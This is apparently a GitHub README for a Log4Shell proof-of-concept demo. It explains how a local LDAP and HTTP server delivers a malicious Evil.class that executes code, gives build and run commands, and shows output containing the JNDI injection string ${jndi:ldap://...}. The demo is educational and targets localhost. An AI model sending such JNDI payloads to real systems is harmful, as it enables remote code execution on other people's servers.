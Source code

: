 ## Log4Shell Goof

Primeiro commit e agora na branch primeira-branch.

The purpose of this project is to demonstrate the Log4Shell exploit with Log4J versions older than `2.15.0`.

**NOTE**: Multiple additional vulnerabilities have been disclosed with log4j. Make sure you're using the latest `2.17.x` version.

This repo is based on the excellent proof-of-concept published by [BrianV](https://github.com/bmvermeer/log4jexploit/).
The PoC is a great starting point. This project expands on it by fleshing it out into a fully standalone demo.

For more information about the exploit and the mechanics of how it works, 
[here is a good blog post](https://snyk.io/blog/log4j-rce-log4shell-vulnerability-cve-2021-4428/).

### Requirements

You'll need one of the following Java SDKs:
  * 11.0.1 or earlier
  * 8u191 or earlier
  * 7u201 or earlier
  * 6u211 or earlier

Java SDKs newer than those versions don't have the same vulnerability.

### Building the PoC

In the root folder, run:

```
mvn clean install
```

**NOTE:** This project includes the Maven wrapper, so you don't need to have previously installed Maven.

### Running the PoC

This repo has two modules: server and client.

The server module runs a lean LDAP & HTTP server.

The LDAP server listens on port `9999` by default and will return an `LDAPResult` that includes a URL reference to a
Java class that will be deserialized and executed.

The HTTP server listens on port `8000` and responds to any request with a byte array that is the `Evil.class`.

`Evil` implements `ObjectFactory` which the JNDI mechanism hooks into to execute its `getObjectInstance` method. While
the method simply returns `null`, it uses `Runtime` to execute arbitrary code on the host machine. In this case, it
writes to a file called: `/tmp/pwned` to prove that it _could_ execute basically anything available on the machine.

This PoC should run as-is on Linux or Mac.

Open a terminal window and run the following:

```
cd log4shell-server
mvn exec:java
```

You should see output that looks like the following:

```
[INFO] --- exec-maven-plugin:3.0.0:java (default-cli) @ log4shell-server ---
LDAP server listening on 0.0.0.0:9999
HTTP server listening on 0.0.0.0:8000
```

In another terminal window, run the following:

```
cd log4shell-client
JAVA_HOME=/Library/Java/JavaVirtualMachines/jdk1.8.0_111.jdk/Contents/Home \
mvn exec:java
```

**NOTE:** Referencing `JAVA_HOME` is important as the exploit only fully works with older JDK versions.
For example, you can download JDK 8u111 
[here](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html). If you download
and install the version for Mac, the above command will work for you.

You should see output that looks like the following:

```
[INFO] --- exec-maven-plugin:3.0.0:java (default-cli) @ log4shell-client ---
---------- JVM Props -------------
java.vm.version=25.111-b14
java.vm.vendor=Oracle Corporation
java.vm.name=Java HotSpot(TM) 64-Bit Server VM
java.vm.specification.name=Java Virtual Machine Specification
java.vm.specification.vendor=Oracle Corporation
java.vm.specification.version=1.8
java.vm.info=mixed mode
---------------------------------
20:27:49.676 [Main.main()] ERROR Main - test
/tmp/pwned DOES NOT EXIST
20:27:49.679 [Main.main()] ERROR Main - Output:${jndi:ldap://127.0.0.1:9999/Evil}
/tmp/pwned EXISTS - yah been pwned!
```

**NOTE**: The client app will tell you if it was successful. It does some checks, including looking for the 
`/tmp/pwned` file before and after the attack. You MUST delete the `/tmp/pwned` file between runs in order for the
client app to work properly. The file not being there and then being present after the attack is how it knows it's
been successful.
